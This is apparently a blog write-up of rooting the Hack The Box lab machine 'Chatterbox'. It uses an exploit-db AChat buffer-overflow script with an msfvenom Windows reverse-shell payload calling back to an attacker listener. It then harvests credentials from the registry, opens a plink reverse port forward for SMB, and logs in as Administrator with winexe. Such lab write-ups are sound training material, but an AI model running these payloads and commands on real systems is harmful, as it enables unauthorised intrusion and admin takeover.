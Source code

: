 ```yaml
---
layout: post
title:  "Hackthebox - Chatterbox"
date:   2020-08-06 19:24:55 -0700
categories: hackthebox_medium
tags: hackthebox chatterbox ctf msfvenom meterpreter AChat AutoRunScript nishang oscp-like 
---
```


In this post I will be showing you how to root Chatterbox, as always I will try to not spoonfeed as much as I can. Enjoy.

I ran an nmap scan against the box but no ports came back, so I decided to a full port scan by adding the `-p-` flag my nmap command, this revealed 2 ports which were related to AChat.

![image](/assets/images/htb_chatterbox_nmap.png)

I did a quick searchsploit search against "AChat" and decided to use this python script: [https://www.exploit-db.com/exploits/36025](https://www.exploit-db.com/exploits/36025)

I used the following command to generate my payload and replaced it in the python script

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=listeningip LPORT=listeningport -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Then I used metasploit's `exploit/multi/handler` module to listen for the shell, do not forget to set the payload to `windows/shell_reverse_tcp` (I forgot doing this and it took me 30 minutes to figure it out)

After I got the shell I ran really quick `netstat -ano` because I was not convinced `AChat` was the only service running on the machine.

To my surprise, there was indeed `445` open which was basically SMB. 

SMB could help us only:
- If we got credentials
    - In case of Administrator creds, we could possible get a shell
- Anonymous login is enabled

So before port forwarding 445, I decided to do more enumeration.

I went to the good old hacktricks' checklist which I recommend you check out.

After few minutes, I got my first credentials within registry, more info here: [https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#inside-the-registry](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#inside-the-registry)

![image](/assets/images/htb_chatterbox_reg.png)

I downloaded plink (**MAKE SURE TO DOWNLOAD THE 32 BIT VERSION**) from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html).

After downloading it I used python3 to make a http server where I will download plink from.

```bash
$ cd ~/Downloads
$ python3 -m http.server # You might need to run this as root or specific another port that doesn't need special privs to bind to, by default it uses 8000
```

On my box I also started ssh using systemctl

```bash
$ sudo systemctl enable ssh
```

Then using plink on the box I ran the following:

```batch
.\plink.exe -l d4rckh -pw 123123 -R 445:127.0.0.1:445 10.10.XX.XX
```
(NOTE: Change the username, IP and password so they match with your box)

From there I ran winexe:

```bash
winexe -U Administrator%Welcome1! //127.0.0.1 “cmd.exe”
```

![image](/assets/images/htb_chatterbox_root.png)


